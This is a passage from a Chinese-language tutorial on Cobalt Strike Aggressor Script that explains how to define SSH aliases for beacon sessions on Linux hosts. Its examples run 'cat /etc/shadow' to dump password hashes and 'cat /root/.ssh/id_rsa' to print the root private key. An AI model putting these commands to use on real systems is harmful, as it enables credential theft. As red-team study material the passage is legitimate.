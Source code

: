 运行一下：

![image-20201215230423505](/images/Aggressor-Script/image-20201215230423505.png)

判断出了我们的主机信息



## SSH Aliases

> 和 beacon alias 一样，我们也可以为 liunx 主机创建 SSH 控制台命令，比如查看我们的 /etc/password：

下面的 `$1` 是信标的会话 ID

```shell
ssh_alias hashdump {
	if (-isadmin $1) { # 判断是否为管理员，因为password非管理员不等查看
		binput($1,"导出passwod的HASH：")
		bshell($1, "cat /etc/shadow");
	}
	else {
		berror($1, "你不是管理员！！");
	}
}
```

![image-20201215231244460](/images/Aggressor-Script/image-20201215231244460.png)

当然你也可以写其他命令，bshell 数据模型是用来执行命令的，他需要的参数如下：

`$1` 信标的会话ID

`$2` 需要执行的命令



比如我们查看 liunx 主机的SSH密匙的信息：

```shell
ssh_alias ssh_demo{
	binput($1,"打印SSH私钥信息");
	bshell($1,"cat /root/.ssh/id_rsa");
}
```

运行：

![image-20201215231926776](/images/Aggressor-Script/image-20201215231926776.png)



## ssh_command_register

当自定义一个 ssh命令 以后，只有自己知道这个 命令的具体使用方式，当想要所有人都知道这条命令的含义的时候，我们可以使用 ssh_command_register 数据模型  显示帮助信息，他需要接受三个参数

`$1` 自定义的命令

`$2` 命令的介绍
